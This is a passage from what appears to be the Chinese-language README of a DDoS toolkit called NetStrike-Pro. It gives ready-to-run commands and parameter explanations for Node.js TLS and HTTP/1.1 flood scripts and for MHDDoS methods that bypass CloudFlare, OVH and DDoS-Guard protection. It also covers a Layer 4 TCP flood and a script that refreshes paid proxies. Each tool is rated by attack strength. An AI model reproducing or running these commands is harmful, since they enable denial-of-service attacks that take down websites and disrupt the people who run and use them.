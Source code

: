 ```bash
cd NetStrike-Pro/legacy

# 基础用法
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# 参数说明
node 新建文件夹/tls.js <目标> <时间> <速率> <线程> <代理文件>
#                        URL    秒    req/s  数量   文件路径
```

**威力**: ⭐⭐⭐⭐⭐ （最强 CloudFlare 绕过）

### 3. HTTP/1.1 快速攻击 (`legacy/新建文件夹/cfx.js`)

```bash
cd NetStrike-Pro/legacy

# 基础用法
node 新建文件夹/cfx.js https://目标.com proxy_paid.txt 30

# 参数说明
node 新建文件夹/cfx.js <目标> <代理文件> <时间>
```

**威力**: ⭐⭐⭐⭐

### 4. MHDDoS 专用 Bypass (`legacy/mhddos/`)

```bash
cd NetStrike-Pro/legacy

# CloudFlare Bypass
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180

# OVH Bypass
python3 mhddos/start.py OVH 0 https://目标.com 200 proxy_paid.txt 100 180

# DDoS Guard Bypass
python3 mhddos/start.py DGB 0 https://目标.com 200 proxy_paid.txt 100 180

# Layer 4 TCP Flood
python3 mhddos/start.py TCP 目标IP:端口 200 180

# 参数说明
python3 mhddos/start.py <方法> <模式> <目标> <线程> <代理> <速率> <时间>
```

**可用方法**: 60+ 种（Layer 4 + Layer 7）

### 5. 代理管理工具

**刷新付费代理** (`legacy/refresh_proxy.sh`):
```bash
cd NetStrike-Pro/legacy
./refresh_proxy.sh
```
